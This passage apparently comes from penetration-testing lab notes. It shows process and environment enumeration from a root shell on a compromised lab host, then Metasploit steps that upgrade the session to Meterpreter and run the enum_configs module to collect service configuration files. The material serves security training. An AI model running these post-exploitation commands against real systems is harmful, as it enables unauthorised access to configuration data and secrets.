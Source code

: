 ```bash
    ps aux
    USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    root           1  0.0  0.0  20044  2852 ?        Ss   05:47   0:00 /bin/bash /root/start.sh
    root           8  0.0  0.0 292840 14844 ?        Ss   05:47   0:00 /usr/local/samba/sbin/smbd -D
    root           9  0.0  0.0  47076 15740 ?        S    05:47   0:00 /usr/bin/python /usr/bin/supervisord -n
    root          10  0.0  0.0 292840  6816 ?        S    05:47   0:00 /usr/local/samba/sbin/smbd -D
    root          23  0.0  0.0   4336  1552 ?        S    05:51   0:00 /bin/sh
    root          31  0.0  0.0   1152  1024 ?        S    05:52   0:00 /tmp/AOmdg
    root          36  0.0  0.0   4336   720 ?        S    05:53   0:00 /bin/sh
    root          37  0.0  0.0  20224  3316 ?        S    05:53   0:00 /bin/bash -i
    root          53  0.0  0.0  17504  2072 ?        R    05:59   0:00 ps aux

# Enumerate environment variables
root@victim-1:/tmp# env
    env
    USER=root
    PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/system/bin:/system/sbin:/system/xbin
    PWD=/tmp
    LANG=C
    SHLVL=1
    HOME=/root
```

### Some Post Exploitation <a href="#some-post-exploitation" id="some-post-exploitation"></a>

* Enumerate apps and services **configuration files**

```bash
exit
# if the session dies, open a new one
sessions -u 1
```

```bash
search enum_configs
use post/linux/gather/enum_configs
info
# Description:
#   This module collects configuration files found on commonly installed 
#   applications and services, such as Apache, MySQL, Samba, Sendmail, 
#   etc. If a config file is found in its default path, the module will 
#   assume that is the file we want.
sessions
# Set the Meterpreter session
set SESSION 2
run

# It will not migrate if it's already a x64 process  
```
